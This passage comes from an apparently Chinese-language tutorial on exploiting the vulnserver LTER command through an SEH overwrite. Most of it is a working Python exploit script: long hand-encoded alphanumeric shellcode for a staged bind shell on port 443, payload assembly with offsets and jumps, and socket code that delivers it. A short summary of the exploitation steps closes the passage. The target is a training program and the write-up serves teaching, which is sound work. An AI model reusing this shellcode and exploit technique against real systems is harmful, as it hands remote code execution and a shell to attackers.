stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x76\x01\x70\x67" ## add  eax, 0x67700176
stage4 += "\x05\x65\x01\x70\x56" ## add  eax, 0x56700165
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x13\x27\x66\x26" ## add  eax, 0x26662713
stage4 += "\x05\x23\x16\x65\x26" ## add  eax, 0x26651623
stage4 += "\x05\x13\x25\x46\x24" ## add  eax, 0x24462513
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x61\x11\x32\x30" ## add  eax, 0x30321161
stage4 += "\x05\x61\x01\x41\x20" ## add  eax, 0x20410161
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x16\x63\x74\x66" ## add  eax, 0x66746316
stage4 += "\x05\x26\x53\x64\x55" ## add  eax, 0x55645326
stage4 += "\x05\x14\x33\x53\x34" ## add  eax, 0x34533314
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x55\x43\x73\x71" ## add  eax, 0x71734355
stage4 += "\x05\x55\x43\x73\x61" ## add  eax, 0x61734355
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x64\x64\x67\x43" ## add  eax, 0x43676464
stage4 += "\x05\x54\x53\x56\x33" ## add  eax, 0x33565354
stage4 += "\x05\x63\x63\x35\x33" ## add  eax, 0x33356363
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x55\x62\x16\x15" ## add  eax, 0x15166255
stage4 += "\x05\x55\x61\x05\x15" ## add  eax, 0x15056155
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x11\x26\x66\x56" ## add  eax, 0x56662611
stage4 += "\x05\x10\x16\x65\x45" ## add  eax, 0x45651610
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x57\x74\x60\x57" ## add  eax, 0x57607457
stage4 += "\x05\x47\x74\x50\x47" ## add  eax, 0x47507447
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x71\x56\x73\x35" ## add  eax, 0x35735671
stage4 += "\x05\x60\x45\x63\x45" ## add  eax, 0x45634560
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x76\x76\x16\x43" ## add  eax, 0x43167676
stage4 += "\x05\x65\x65\x26\x32" ## add  eax, 0x32266565
stage4 += "\x05\x54\x54\x14\x32" ## add  eax, 0x32145454
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x33\x35\x61\x22" ## add  eax, 0x22613533
stage4 += "\x05\x43\x25\x50\x22" ## add  eax, 0x22502543
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x54\x67\x11\x71" ## add  eax, 0x71116754
stage4 += "\x05\x54\x67\x10\x71" ## add  eax, 0x71106754
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x13\x63\x71\x54" ## add  eax, 0x54716313
stage4 += "\x05\x02\x52\x61\x44" ## add  eax, 0x44615202
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x75\x67\x55\x35" ## add  eax, 0x35556775
stage4 += "\x05\x75\x57\x45\x25" ## add  eax, 0x25455775
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x13\x67\x37\x37" ## add  eax, 0x37376713
stage4 += "\x05\x04\x57\x26\x26" ## add  eax, 0x26265704
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x63\x11\x11\x31" ## add  eax, 0x31111163
stage4 += "\x05\x63\x21\x21\x32" ## add  eax, 0x32212163
stage4 += "\x05\x43\x11\x11\x21" ## add  eax, 0x21111143
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x14\x41\x60\x14" ## add  eax, 0x14604114
stage4 += "\x05\x04\x40\x50\x04" ## add  eax, 0x04504004
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x17\x23\x26\x55" ## add  eax, 0x55262317
stage4 += "\x05\x06\x14\x15\x55" ## add  eax, 0x55151406
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x33\x37\x12\x53" ## add  eax, 0x53123733
stage4 += "\x05\x32\x47\x11\x52" ## add  eax, 0x52114732
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x25\x36\x40\x31" ## add  eax, 0x31403625
stage4 += "\x05\x15\x26\x40\x30" ## add  eax, 0x30402615
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x26\x37\x07\x75" ## add  eax, 0x75073726
stage4 += "\x05\x15\x36\x06\x74" ## add  eax, 0x74063615
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x53\x72\x74\x15" ## add  eax, 0x15747253
stage4 += "\x05\x42\x72\x74\x04" ## add  eax, 0x04747242
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x67\x63\x32\x31" ## add  eax, 0x31326367
stage4 += "\x05\x66\x62\x22\x22" ## add  eax, 0x22226266
stage4 += "\x05\x45\x42\x22\x21" ## add  eax, 0x21224245
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x52\x31\x32\x12" ## add  eax, 0x12323152
stage4 += "\x05\x41\x30\x21\x12" ## add  eax, 0x12213041
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x36\x44\x11\x36" ## add  eax, 0x36114436
stage4 += "\x05\x35\x44\x12\x35" ## add  eax, 0x35124435
stage4 += "\x05\x36\x33\x11\x33" ## add  eax, 0x33113336
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x57\x33\x60\x16" ## add  eax, 0x16603357
stage4 += "\x05\x46\x42\x60\x15" ## add  eax, 0x15604246
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x37\x10\x17\x11" ## add  eax, 0x11171037
stage4 += "\x05\x27\x10\x07\x01" ## add  eax, 0x01071027
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x66\x61\x47\x41" ## add  eax, 0x41476166
stage4 += "\x05\x56\x61\x36\x41" ## add  eax, 0x41366156
stage4 += "\x05\x64\x41\x35\x41" ## add  eax, 0x41354164
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x34\x63\x21\x17" ## add  eax, 0x17216334
stage4 += "\x05\x23\x53\x21\x16" ## add  eax, 0x16215323
stage4 += "\x05\x23\x63\x21\x15" ## add  eax, 0x15216323
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x21\x24\x27\x53" ## add  eax, 0x53272421
stage4 += "\x05\x12\x14\x26\x43" ## add  eax, 0x43261412
stage4 += "\x05\x21\x24\x25\x43" ## add  eax, 0x43252421
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x25\x36\x46\x16" ## add  eax, 0x16463625
stage4 += "\x05\x24\x45\x45\x16" ## add  eax, 0x16454524
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x44\x67\x63\x41" ## add  eax, 0x41636744
stage4 += "\x05\x34\x56\x53\x41" ## add  eax, 0x41535634
stage4 += "\x05\x34\x65\x42\x31" ## add  eax, 0x31426534
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x24\x46\x46\x57" ## add  eax, 0x57464624
stage4 += "\x05\x24\x45\x45\x46" ## add  eax, 0x46454524
stage4 += "\x05\x24\x33\x34\x45" ## add  eax, 0x45343324
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x33\x11\x34\x46" ## add  eax, 0x46341133
stage4 += "\x05\x32\x12\x34\x45" ## add  eax, 0x45341232
stage4 += "\x05\x22\x11\x34\x46" ## add  eax, 0x46341122
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x13\x76\x41\x36" ## add  eax, 0x36417613
stage4 += "\x05\x23\x65\x42\x36" ## add  eax, 0x36426523
stage4 += "\x05\x13\x56\x41\x24" ## add  eax, 0x24415613
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x07\x02\x21\x55" ## add  eax, 0x55210207
stage4 += "\x05\x07\x01\x20\x54" ## add  eax, 0x54200107
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x63\x02\x21\x33" ## add  eax, 0x33210263
stage4 += "\x05\x64\x02\x10\x24" ## add  eax, 0x24100264
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x65\x61\x32\x42" ## add  eax, 0x42326165
stage4 += "\x05\x64\x50\x21\x41" ## add  eax, 0x41215064
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x54\x73\x16\x26" ## add  eax, 0x26167354
stage4 += "\x05\x43\x62\x15\x15" ## add  eax, 0x15156243
stage4 += "\x05\x43\x52\x13\x23" ## add  eax, 0x23135243
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x45\x73\x65\x13" ## add  eax, 0x13657345
stage4 += "\x05\x44\x74\x55\x03" ## add  eax, 0x03557444
stage4 += "\x50"                 ## push eaxpayload = ""
payload += vuln_command
payload += stage4
payload += "A" * (offset - len(stage1) - 73 - len(stage4))
payload += stage3
payload += "B" * (73 - len(stage3))
payload += stage1
payload += seh
payload += "C" * 2
payload += stage2
payload += "C" * (crash - 4 - offset - 2 - len(stage2))print "[+] Sending buffer (Size: %d)" % len(payload)s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 9999))
print(s.recv(1024))
s.send(payload)
s.close()
```

一旦我们运行了`final_lter.py`脚本，我们就可以成功地在端口 443 上打开 bind shell。



最终利用

# 结论

概括一下:

1.  我们模糊了 vulnserver `LTER`命令。
2.  找到了`LTER`有漏洞命令的入口点。
3.  已识别不良字符。
4.  找到控制`SEH`覆盖的偏移量。
5.  发现不良字符免费`POP POP RET`小工具地址。
6.  **[#1 阶段 Shellcode]** 条件 JMP ( `nSEH`)带 4 字节。
7.  **[#2 阶段外壳代码]** 用 50 字节编码短 JMP ( `\xEB\x80`)。
8.  **[#3 Stage Shellcode]** 编码 67 字节长 JMP ( `PUSH ESP` → `POP EBX` → `subtract necessary bytes` → `CALL EBX`)。
9.  **[#4 阶段外壳代码]** 编码绑定外壳。使用 Slink 对`msfvenom`绑定外壳进行编码。

希望你也从中学到了一些东西。感谢阅读！

